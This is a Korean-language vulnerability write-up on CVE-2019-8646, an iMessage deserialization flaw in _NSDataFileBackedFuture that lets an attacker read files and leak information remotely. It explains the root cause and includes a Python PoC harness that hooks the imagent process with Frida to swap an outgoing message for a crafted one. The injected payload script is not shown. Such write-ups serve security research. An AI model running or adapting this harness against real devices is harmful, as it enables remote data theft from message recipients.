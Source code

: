 # iMessage: NSKeyedUnarchiver deserialization allows file backed NSData objects

## Information
- CVE : 2019-8646
- 해당 소프트웨어 : iMessage (on iOS)
- 해당 버전 : iOS 12.1
- 취약점 유형 : Remote Code Execution / Information Leak

## Root Cause
**NSData** 의 subclass `_NSDataFileBackedFuture` 의 Deserialization 버그. 해당 클래스가 초기화될 때, 지정된 파일의 컨텐츠를 읽어 버퍼를 초기화한다. 해당 클래스가 deserialization 될때, 버퍼의 길이, 파일 이름 문자열, 그리고 다른 오브젝트들을 파싱하고 디코딩하는데 이때 해당 인스턴스를 주어진 길이 값과 파일 이름으로 설정한다. 그리고나서 *[_NSDataFileBackedFuture length]* 가 호출될 때, deserialization 된 길이 값을 반환하고, *[_NSDataFileBackedFuture bytes]* 가 호출될 때는 해당 파일을 열고 메모리에 로드한 버퍼 주소가 반환되고 이는 캐시메모리에 저장된다. 이는 두가지 문제점이 있는데, 첫 번째로 해당 파일에 대한 접근제어(Access Control)이 없이 deserialization을 위해 메모리에 그대로 로드된다는 것이다. 그리고 두 번째로, *[_NSDataFileBackedFuture length]* 가 반환하는 값과 *[_NSDataFileBackedFuture bytes]* 값이 전혀 연관성이 없고 이는 XML 형태로 다르게 설정할 수 있기 때문에 만약 *length* 값을 실제 파일보다 길게 설정하면 Information Leak 버그로 연결될 수 있다.

## PoC
### SendMessage.py
```python
import frida
import sys
import subprocess
import time

# The receiver should be listed on your contacts
receiver = "[RECEIVER iCloud EMAIL ADDRESS | PHONE NUMBER]"
exit = False

def on_message(message, data):
    global exit
    if message['type'] == 'send':
        payload = message['payload']
        if payload == "DONE":
            print("done")
            exit = True
            return
    else:
        print(message)

session = frida.attach("imagent")
code = open('injectMessage.js', 'r').read()
script = session.create_script(code);
script.on("message", on_message)
script.load()

# Send a message through apple script. Our hook will detect it and replace it before sending.
subprocess.call(["osascript", "sendMessage.applescript", receiver, "REPLACEME"])

while not exit:
    time.sleep(0.1)
```
